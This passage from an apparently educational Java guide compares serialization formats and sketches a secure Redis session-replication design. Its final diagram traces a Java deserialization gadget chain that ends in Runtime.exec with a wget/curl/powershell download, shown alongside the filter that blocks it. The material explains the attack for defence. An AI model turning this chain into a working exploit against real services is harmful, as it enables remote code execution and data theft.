| Schema evolution | Fragile (UID-based) | Easy (add fields freely) | Versioned (field numbers) |
| Language interop | Java only | Universal | Universal (.proto) |
| Security (deserialization) | Critical risk | Safe | Safe |
| Null handling | Implicit | Explicit (can omit) | Explicit (default values) |
| Type safety | Runtime | Runtime (with generics) | Compile-time (.proto) |

```java
// Choosing the right format:

// 1. Between Java services (same JVM process or shared classpath):
//    -> Java serialization (legacy) or Kryo/FST (performance)
//    -> Or: share interface types and pass directly (no serialization)

// 2. REST API, external system, browser client:
//    -> JSON (Jackson with JavaTimeModule for java.time)
//    -> Universal, human-readable, debuggable

// 3. High-throughput microservices (>10k req/s):
//    -> Protocol Buffers + gRPC
//    -> 5-10x smaller, 5-10x faster than JSON
//    -> Schema validation prevents integration bugs

// 4. Apache Kafka event streaming:
//    -> Avro + Confluent Schema Registry
//    -> Schema evolution with compatibility checks
//    -> Consumer can read old messages after schema update (forward compat)

// 5. Distributed cache (Hazelcast, Redis, Ignite):
//    -> Kryo (in-JVM, fast, compact, no schema needed)
//    -> Or Jackson JSON (cross-language compatibility if needed)

// NEVER:
// Java serialization for cross-service, external API, or any untrusted input
```

*What separates good from great:* The Protocol Buffers field number is the
key to schema evolution. In JSON: a field named "userId" can be renamed to
"user_id" (breaking change). In Protobuf: field 1 is always field 1,
regardless of its name in the .proto file. Add new fields: existing clients
ignore unknown fields (forward compatibility). Remove fields: mark deprecated,
existing data still valid (backward compatibility). This makes Protobuf
the choice for services with long-lived clients or independent upgrade cycles.
gRPC (HTTP/2 + Protobuf) combines the transport and serialization: bidirectional
streaming, strongly-typed contracts, generated client stubs in any language.

---

### ⚖️ Comparison Table

| Approach | Use Case | Security | Performance | Interop |
|---|---|---|---|---|
| Java Serialization | Legacy, in-JVM | Critical risk | Poor | Java only |
| Externalizable | Performance-critical in-JVM | Same as Java ser | Better | Java only |
| Jackson JSON | REST, external APIs | Safe | Medium | Universal |
| Protocol Buffers | High-throughput, gRPC | Safe | Excellent | Universal |
| Avro | Kafka, Hadoop | Safe | Good | Universal |
| Kryo | In-JVM distributed cache | Safe | Excellent | JVM |
| Serialization Proxy | Secure Java serialization | Good | Same as Java | Java |

---

### 🏛️ System Design

**Design: secure object serialization for distributed session replication**

```
Client Request
     |
     v
[Web Server Node 1]
  Request Processing
     |
     v
[Session Manager]
  read session from store
  process request
  write session to store
     |
     v
[Session Store (Redis)]
  key: session-id
  value: serialized session bytes
  TTL: 30 minutes
     |
  (failover/scale)
     |
     v
[Web Server Node 2]
  reads same session bytes
  deserializes session object

Serialization pipeline:
  [HttpSession Object]
     |---> [SessionSerializer]
     |       |---> whitelist check (ObjectInputFilter)
     |       |---> serialize to bytes (Kryo or Jackson)
     |       |---> compress (LZ4 for large sessions)
     |       |---> encrypt (AES-GCM for sensitive data)
     |
     v
  [Redis byte[] value]

Security controls:
  - ObjectInputFilter: whitelist session-related classes only
  - No Java native serialization: use Kryo + whitelist
  - Encrypted at rest (Redis encryption or field-level)
  - Session ID: cryptographically random (SecureRandom)
```

```mermaid
sequenceDiagram
    participant Client as Client Browser
    participant Node1 as Web Server Node 1
    participant Redis as Redis Cluster
    participant Node2 as Web Server Node 2
    participant Filter as ObjectInputFilter

    Client->>Node1: POST /checkout (with session cookie)
    Node1->>Redis: GET session:abc123
    Redis-->>Node1: encrypted bytes
    Node1->>Filter: deserialize(bytes, whitelist)
    Filter->>Filter: check class in whitelist
    Filter-->>Node1: HttpSession object (safe)

    Node1->>Node1: process checkout
    Node1->>Node1: session.put("cart", updatedCart)

    Node1->>Node1: serialize(session) via Kryo
    Node1->>Redis: SET session:abc123 serializedBytes EX 1800
    Redis-->>Node1: OK
    Node1-->>Client: 200 OK

    Note over Node1, Node2: Node1 fails; Client retries
    Client->>Node2: GET /confirm (same session cookie)
    Node2->>Redis: GET session:abc123
    Redis-->>Node2: same serialized bytes
    Node2->>Filter: deserialize(bytes, whitelist)
    Filter-->>Node2: HttpSession with cart intact
    Node2-->>Client: 200 OK (cart preserved!)
```

> **Diagram walkthrough:** The session replication design shows the critical
> components: Kryo serialization (fast, compact, JVM-to-JVM), ObjectInputFilter
> on read (rejects unexpected classes even from the Redis store - in case of
> Redis compromise or data corruption), and Redis as the session store with TTL.
> The failover scenario (Node1 fails, Node2 serves) is the core motivation for
> distributed sessions. Security layers: encrypted Redis connection (TLS),
> session ID via SecureRandom (unpredictable), and class whitelist (prevents
> gadget chains even from internal Redis data). The Kryo whitelist is registered
> at startup with `kryo.register(ShoppingCart.class)` - unregistered classes
> reject at serialization time, not deserialization time (faster fail).

---

### 📊 Diagram

**Java deserialization attack chain:**

```
Untrusted Byte Stream
     |
     v (ObjectInputStream.readObject())
[PriorityQueue.readObject()]
  reads elements from stream
     |
     v (heapify -> comparator.compare())
[TransformerComparator.compare()]
  invokes transform() on each element
     |
     v (ChainedTransformer)
[InvokerTransformer.transform()]
  method.invoke(Runtime.getRuntime(), "exec", cmd)
     |
     v
[ATTACK: Runtime.exec("malicious command")]
  wget / curl / powershell download
     |
     v
[Remote Code Execution]
  Backdoor installed, data exfiltrated

PREVENTION (ObjectInputFilter blocks at step 1):
  FilterResult: REJECTED for TransformerComparator
  -> InvalidClassException thrown immediately
  -> Gadget chain never executes
```



> **Diagram walkthrough:** Two paths diverge at the `ObjectInputFilter`.
> With a filter: the `InvokerTransformer` class is immediately rejected
> because it's not on the whitelist - the gadget chain never starts.
> Without a filter: `PriorityQueue.readObject()` initiates the chain,
> `InvokerTransformer.transform()` uses reflection to invoke
> `Runtime.exec()`, achieving arbitrary code execution. The filter is
> the single control that prevents the entire attack. Every Java application
> that calls `ObjectInputStream.readObject()` on data from an external
> source (network, file, message queue) must have this filter. No exceptions.
